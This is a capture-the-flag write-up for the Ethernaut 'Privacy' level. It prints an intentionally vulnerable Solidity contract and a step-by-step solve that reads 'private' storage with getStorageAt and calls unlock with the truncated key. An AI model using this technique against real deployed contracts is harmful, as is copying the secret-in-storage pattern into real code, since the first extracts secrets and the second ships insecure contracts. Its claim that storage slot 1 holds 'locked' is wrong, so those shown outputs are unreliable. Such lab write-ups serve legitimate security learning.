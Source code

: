 ```yaml
---
layout: post
title: Ethernaut - 12. Privacy
date:  2022-09-27
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌕🌑
> The creator of this contract was careful enough to protect the sensitive areas of its storage.<br /><br />
Unlock this contract to beat the level.<br /><br />
Things that might help:
- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works 

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## Writeup
Although  `data` is `private` variable. We still can use `web3.eth.getStorageAt` to get the state of the contract's storage.
1. Get new instance.
2. Try to get `locked` value by `web3.eth.getStorageAt`.
    ``` javascript

    await web3.eth.getStorageAt("YOUR_LEVEL_INSTANCE_ADDRESS", 1)
    // '0x0000000000000000000000000000000000000000000000000000000000000001' // return locked value // true

    ```
3. Get `data[2]`.
    ``` javascript

    await web3.eth.getStorageAt("YOUR_LEVEL_INSTANCE_ADDRESS", 5)
    // '0x7c1db6671abbdbf3884f953ac1683887832f14843bc56d6f3250a825a233f93e' 

    ```
4. Unlock.
    ``` javascript

    await contract.unlock('0x7c1db6671abbdbf3884f953ac1683887')

    ```
5. Get `locked` value again.
    ``` javascript

    await web3.eth.getStorageAt("YOUR_LEVEL_INSTANCE_ADDRESS", 1)
    // '0x0000000000000000000000000000000000000000000000000000000000000000' // false

    ```
6. Submit instance ξ( ✿＞◡❛)